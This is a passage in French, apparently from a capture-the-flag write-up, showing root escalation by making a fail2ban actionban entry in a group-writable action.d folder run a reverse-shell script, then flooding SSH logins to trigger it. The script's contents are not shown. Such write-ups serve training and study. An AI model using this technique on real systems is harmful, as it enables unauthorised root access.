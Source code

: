 Or Michael est du groupe:

```bash
groups
michael security
```

Ce qui nous permet d’écrire dans:

```bash
269281 drwxrwx---   2 root security  4096 Jan 31 17:39 action.d
```

Ce dossier contient les actions, on va donc créer nos propres actions 

On va donc modifier actionban pour lancer un shell vers notre machine

```bash
mv iptables-multiport.conf iptables-multiport.conf.bak
cp iptables-multiport.conf.bak iptables-multiport.conf
vi /tmp/shell.sh
chmod +x /tmp/shell.sh
```

et on modifie:

```bash
actionban = /tmp/shell.sh
```

On redémarre:

```bash
sudo /etc/init.d/fail2ban restart
```

Il suffit de spammer les connection SSH et avec un peu chance ça marche du premier coup, sinon il faut ressayer en refaisant toute la procédure. On obtient le flag root.